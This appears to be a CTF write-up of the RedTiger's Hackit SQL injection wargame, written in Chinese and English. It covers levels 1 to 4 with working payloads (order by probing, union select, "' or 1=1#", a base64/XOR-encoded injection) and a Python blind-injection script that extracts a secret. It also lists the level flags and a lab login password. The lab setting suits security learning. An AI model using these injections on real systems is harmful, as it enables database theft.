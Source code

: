 #SQL Practice@[RedTigers Hackit](http://redtiger.labs.overthewire.org)
##Level 1
1. 确定列数: Order by
2. Get: Union select
3. flag: 27cbddc803ecde822d87a7e8639f9315

##Level 2
1. ' or 1=1#
2. flag: 1222e2d4ad5da677efb188550528bfaa

##Level 3
	Target: Get the password of the user Admin.
	Hint: Try to get an error. Tablename: level3_users

1. 构造错误: level3.php?usr**[0]**=MTI5MTY0MTczMTY5MTc0
	Show userdetails:
	Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21

2. urlcrypt.inc
```
	function encrypt($str)
	{
		$cryptedstr = "";
		for ($i =0; $i < strlen($str); $i++)
		{
			$temp = ord(substr($str,$i,1)) ^ 192;
			while(strlen($temp)<3)
			{
				$temp = "0".$temp;
			}
			$cryptedstr .= $temp. "";
		}
		return base64_encode($cryptedstr);
	}
	function decrypt ($str)
	{
		if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
		{
			$str = base64_decode($str);
			if ($str != "" && $str != null && $str != false)
			{
				$decStr = "";
				for ($i=0; $i < strlen($str); $i+=3)
				{
					$array[$i/3] = substr($str,$i,3);
				}
				foreach($array as $s)
				{
					$a = $s^192;
					$decStr .= chr($a);
				}
				return $decStr;
			}
			return false;
		}
		return false;
	}
```
得到两个函数，encrypt和decrypt分别用来解密和加密

3. 构造PHP语句，确定列数:
```
$url='http://redtiger.labs.overthewire.org/level3.php?usr=';
$order='admin\'order by 7 #';
$order=encrypt($order);
echo "$url$order <br>";
```
```
$url='http://redtiger.labs.overthewire.org/level3.php?usr=';
$order='admin\'order by 8 #';
$order=encrypt($order);
echo "$url$order <br>";
```

4. 构造PHP语句，拿到flag:
```
$url='http://redtiger.labs.overthewire.org/level3.php?usr=';
$order='\' union select 1,username,3,password,5,6,7 from level3_users where username=\'admin\' #';
$order=encrypt($order);
echo "$url$order <br>";
```

5. flag: a707b245a60d570d25a0449c2a516eca

##Level 4
	Target: Get the value of the first entry in table level4_secret in column keyword
	Disabled: like

1. 判断目标长度:
```
?id=1 and length(keyword)=17
```

2. 猜测目标内容：
```
?id=1 and ASCII(SUBSTR(keyword,1,1))=0
```

3. 自动化猜测：
```
import requests
def search(p,l,r):
    if l > r:
        return False
    x=(l+r) // 2
    re=s.post(url+order % (p,'=',x),data = login)
    if '1 rows.' in re.text:
        return chr(x)
    re=s.post(url+order % (p,'>',x),data = login)
    if '1 rows.' in re.text:
        return search(p,x+1,r)
    else:
        return search(p,l,x-1)
s = requests.Session()
login = {'password': 'dont_publish_solutions_GRR!',
         'level4login': 'Login'}
url='http://redtiger.labs.overthewire.org/level4.php'
order='?id=1 and length(keyword)>'
i=16
while i < 32767:
    re=s.post(url+order+str(i),data = login)
    if '0 rows.' in re.text:
        length=i
        break
    i=i+1
print 'length=',length
keyword=''
order='?id=1 and ASCII(SUBSTR(keyword,%d,1))%s%d'
for i in range(1,length+1):
    keyword=keyword+search(i,32,126)
    print i,'/',length,keyword
print 'keyword=',keyword
```

4. flag: e8bcb79c389f5e295bac81fda9fd7cfa

##Level 5
1. 










